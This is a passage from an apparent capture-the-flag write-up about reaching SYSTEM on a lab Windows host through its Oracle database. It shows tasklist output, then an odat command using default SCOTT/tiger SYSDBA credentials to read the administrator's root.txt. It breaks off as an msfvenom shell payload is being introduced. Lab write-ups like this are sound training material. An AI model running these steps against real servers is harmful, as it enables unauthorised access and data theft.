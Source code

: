 ### Oracle Execution

The alternative path to root is to go directly through the Oracle
database, since it is running as SYSTEM. If we cheat and check out a
`tasklist` with our shell, we can see that (as well as that IIS isn't
running as SYSTEM):



    PS C:\Windows\system32> tasklist /v

    Image Name                     PID Session Name        Session#    Mem Usage Status          User Name                                              CPU Time Window Title
    ========================= ======== ================ =========== ============ =============== ================================================== ============ ========================================================================
    System Idle Process              0 Services                   0          4 K Unknown         NT AUTHORITY\SYSTEM                                   202:51:56 N/A
    System                           4 Services                   0        276 K Unknown         NT AUTHORITY\SYSTEM                                     0:23:07 N/A
    ...snip...
    oracle.exe                    1136 Services                   0    638,440 K Unknown         NT AUTHORITY\SYSTEM                                     1:37:10 N/A
    OraClrAgnt.exe                1264 Services                   0      2,484 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:00 N/A
    TNSLSNR.EXE                   1280 Services                   0     20,760 K Unknown         NT AUTHORITY\SYSTEM                                     0:00:10 N/A
    ...snip...
    w3wp.exe                      1688 Services                   0     31,192 K Unknown         IIS APPPOOL\DefaultAppPool                              0:00:00 N/A
    ...snip...



#### Grab root.txt

Once we have `odat` running, instead of writing a webshell, just grab
root.txt:



    root@kali# odat ctxsys -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --getFile c:\\users\\administrator\\desktop\\root.txt

    [1] (10.10.10.82:1521): Read the c:\users\administrator\desktop\root.txt file on the 10.10.10.82 server
    [+] Data stored in the c:\users\administrator\desktop\root.txt file (escape char replace by '\n'):
    CD39EA0A...



#### Shell

Still, we wouldn't know the user directory at this point, so we should
use Oracle to get a shell.

While `odat` had indicated that we couldn't execute files, in fact, we
can, with the `externaltable` method. However, if we look at the help,
it can only run an executable, no options allowed. So we'll use
`msfvenom` to make an exe:
